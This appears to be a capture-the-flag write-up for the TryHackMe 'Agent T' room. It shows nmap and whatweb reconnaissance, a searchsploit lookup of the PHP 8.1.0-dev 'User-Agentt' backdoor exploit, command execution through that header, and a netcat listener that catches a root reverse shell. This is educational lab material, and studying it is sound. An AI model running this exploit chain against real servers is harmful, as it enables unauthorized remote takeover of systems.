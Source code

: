 # [Agent T VM](https://tryhackme.com/r/room/agentt)

## Enumeration

We start enumarating the open port with **nmap**.

```shell
$sudo nmap -p- --open -n -Pn -sS --min-rate 2000 10.10.94.181

Not shown: 58823 closed tcp ports (reset), 6711 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
```

Only the port 80 is open, so we will analize the web.

![dashboard](./images/dashboard.png)

Allmost all the features do no work and we can only find the other urls such as:

* http://10.10.94.181/index.html
* http://10.10.94.181/404.html
* http://10.10.94.181/blank.html

The first url does not work and we notice that the page uses php behind sience the main page is http://10.10.94.181/index.php instead of http://10.10.94.181/index.html.

We use whatweb to optain more information from the web.

```shell
$ whatweb http://10.10.94.181/
http://10.10.94.181/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.94.181], JQuery, PHP[8.1.0-dev], Script, Title[Admin Dashboard], X-Powered-By[PHP/8.1.0-dev], X-UA-Compatible[IE=edge]
```

![burpsuit-history](./images/burpsuit-history.png)

We obtain the thet *php version is  8.1.0-dev* and a header *X-Powered-By*  indicating the same. We will look an exploit for taht version.

```shell
$ searchsploit php 8.1.0-dev
-------------------------------------------------------------------------------------------
 Exploit Title                                                      |  Path-
-------------------------------------------------------------------------------------------
...
OPNsense < 19.1.1 - Cross-Site Scripting                            | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                 | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                            | php/remote/25986.txt
...
-------------------------------------------------------------------------------------------
Shellcodes: No Results
```

```shell
$ searchsploit -p 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied EDB-ID #49933's path to the clipboard
```

## Vulnerability Exploitation

We find a Remote Code Execution, and if we analyze the code in *https://www.exploit-db.com/exploits/49933* we see that it only adds a header *User-Agentt*.

We try with burpsuit and see that we manage to execute commands.

![burpsuit-comand](./images/burpsuit-comand.png)

We generate the rever shell.

![burpsuit-revshell](./images/burpsuit-revshell.png)

```shell
$sudo nc -lvnp 443
[sudo] password for martin: 
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.94.181] 47662
sh: 0: can't access tty; job control turned off
# whoami
root
```

We are root, search the flag.
